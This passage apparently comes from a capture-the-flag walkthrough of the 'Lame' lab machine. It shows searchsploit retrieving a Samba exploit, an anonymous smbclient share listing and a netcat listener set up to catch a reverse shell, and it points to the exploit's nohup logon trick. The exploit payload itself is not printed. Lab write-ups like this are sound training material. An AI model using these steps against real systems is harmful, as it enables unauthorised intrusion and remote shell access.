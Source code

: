 We already copied over the exploit from searchsploit results using the following command.

{% code lineNumbers="true" %}
```
└─# searchsploit -m exploits/unix/remote/16320.rb
```
{% endcode %}

Use the smbclient option -L to list the services available on a server. In our case we are interested in the 'oh noes' /tmp directory. When logging in, try entering the password with nothing entered.

{% code lineNumbers="true" %}
```
└─# smbclient -L 10.10.10.3   
Enter WORKGROUP\root's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
                                                                                                    
```
{% endcode %}

### Netcat (nc)

Reads and writes data across network connections, using TCP and UDP protocols. It can also function as a server, by listening for inbound connections on arbitrary ports and then doing the same reading and writing.

Start the netcat listening command for our specified port. Once we get SMB access the shell will show up here. -nvlp options are used to be numeric only, set listen mode for inbound connects, verbose, and local port number.

```
└─# nc -nvlp 4444
listening on [any] 4444 ...
```

We can then move over the the /tmp directory and again enter nothing as the password.

The logon command is accessible from the SMB and we can use the nohup command from the 16320.rb copied over from the CVE.
